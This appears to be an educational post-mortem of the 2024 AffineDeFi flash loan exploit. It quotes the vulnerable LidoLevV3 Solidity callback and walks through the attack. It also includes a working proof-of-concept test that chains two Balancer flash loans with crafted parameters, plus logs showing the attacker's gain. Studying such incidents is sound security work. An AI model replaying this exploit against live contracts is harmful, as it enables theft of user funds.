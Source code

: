 
# AffineDeFi


## What's AffineDeFi?

Affine is the world's first cross-chain investment and savings app. We make it simple for users to onboard funds in an efficient and affordable manner using Polygon while gaining access to investment opportunities on multiple chains.

## Amount stolen
~$88K USD

Feb 1, 2024

## Vulnerability
Flash loan attack

## Analysis

The exploiter successfully repaid the initial flash loan using a subsequent flash loan.

### Vulnerable code

```solidity
    /// @notice Callback called by balancer vault after flashloan is initiated.
    function _flashLoan(uint256 amount, LoanType loan, address recipient) internal {
        ERC20[] memory tokens = new ERC20[](1);
        tokens[0] = WETH;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = amount;
        BALANCER.flashLoan({
            recipient: IFlashLoanRecipient(address(this)),
            tokens: tokens,
            amounts: amounts,
            userData: abi.encode(loan, recipient)
        });
    }
```

```solidity

function receiveFlashLoan(
    ERC20[] memory, /* tokens */
    uint256[] memory amounts,
    uint256[] memory, /* feeAmounts */
    bytes memory userData
) external override {
    if (msg.sender != address(BALANCER)) revert onlyBalancerVault();

    uint256 ethBorrowed = amounts[0];

    // Decode the userData to get the LoanType
    (LoanType loan, address newStrategy) = abi.decode(userData, (LoanType, address));

    // Switch or if-else statement to handle different LoanTypes
    if (loan == LoanType.divest) {
        _endPosition(ethBorrowed);  // This function handles divestment and repays the first flash loan
    } else if (loan == LoanType.invest) {
        _addToPosition(ethBorrowed);
    } else if (loan == LoanType.upgrade) {
        _payDebtAndTransferCollateral(LidoLevV3(payable(newStrategy)));
    } else {
        _rebalancePosition(ethBorrowed, loan);
    }

    // Payback wETH loan
    WETH.safeTransfer(address(BALANCER), ethBorrowed);
}
```

# proof of concept (PoC) 


### first flash loan:
-  `flashloan` is called with `amount[0] = 318973831042619036856`
- The Balancer pool initiates a flash loan of WETH to the `LidoLevV3` contract, using the specified `userencodeData` 


`userencodeData` is to determine the action

LidoLevV3.sol
```solidity
   /// @notice The different reasons for a flashloan.
    enum LoanType {
        invest,
        divest,
        upgrade,
        incLev,
        decLev
    }
```

### LidoLevV3 (`receiveFlashLoan` function):
- The `LidoLevV3` contract receives the flash loan.
- The `LoanType.invest` case is triggered in the `receiveFlashLoan` function.
- `_addToPosition` is called, which involves borrowing WETH, converting it to wstETH, depositing in AAVE, and borrowing again.

### Second Flash Loan:
- `flashloan` is called with `amount2[0] = 0`.
- The Balancer pool initiates a flash loan of 0 WETH to the `LidoLevV3` contract,
- using the specified `userencodeData2`. 

### LidoLev3 (`receiveFlashLoan` function):
- The `LidoLevV3` contract receives the second flash loan.
- The `LoanType.divest` case is triggered in the `receiveFlashLoan` function.
- `_endPosition` is called, which involves repaying debt in AAVE, unlocking collateral, and converting it back to ETH.

```solidity

 function testExploit() external {
        emit log_named_decimal_uint(
            "Exploiter aEthwstETH balance before attack",
            IERC20(aEthwstETH).balanceOf(address(this)),
            IERC20(aEthwstETH).decimals()
        );

        bytes memory userencodeData = abi.encode(1, address(this));
        bytes memory userencodeData2 = abi.encode(2, address(this));
        uint256[] memory amount = new uint256[](1);
        uint256[] memory amount2 = new uint256[](1);
        IERC20[] memory token = new IERC20[](1);

        token[0] = IERC20(WETH);
        amount[0] = 318973831042619036856;
        amount2[0] = 0;
        IBalancer(Balancer).flashLoan(IFlashLoanRecipient(LidoLevV3), token, amount, userencodeData);
        IBalancer(Balancer).flashLoan(IFlashLoanRecipient(LidoLevV3), token, amount2, userencodeData2);

        emit log_named_decimal_uint(
            "Exploiter aEthwstETH balance after attack",
            IERC20(aEthwstETH).balanceOf(address(this)),
            IERC20(aEthwstETH).decimals()
        );
    }
```

### Balance Check:

Logs:
```
  Exploiter aEthwstETH balance before attack: 0.000000000000000000
  Exploiter aEthwstETH balance after attack: 33.698806193381635860
```

### Funds Movement Analysis:
- The first flash loan involves borrowing WETH, leveraging it in the `LidoLevV3` contract, and repaying the flash loan.
- The second flash loan involves repaying the flash loan without borrowing additional funds.


### Exploited Code
When the `LoanType` is `LoanType.divest`, the `_endPosition` function is called, which handles the divestment logic and ultimately repays the first flash loan. This ensures that the funds borrowed in the first flash loan are used as part of the divestment process, resulting in the repayment of the initial flash loan.

```solidity
if (loan == LoanType.divest) {
        _endPosition(ethBorrowed);  // This function handles divestment and repays the first flash loan
```


## Conclusion
While the first flash loan involved leveraging and borrowing funds,
the second flash loan aimed at repaying the flash loan without additional borrowing.
The funds moved within the LidoLevV3 contract during the flash loan transactions. 
The contract logs the balance of aEthwstETH before and after the flash loan attacks.

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/AffineDeFi_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
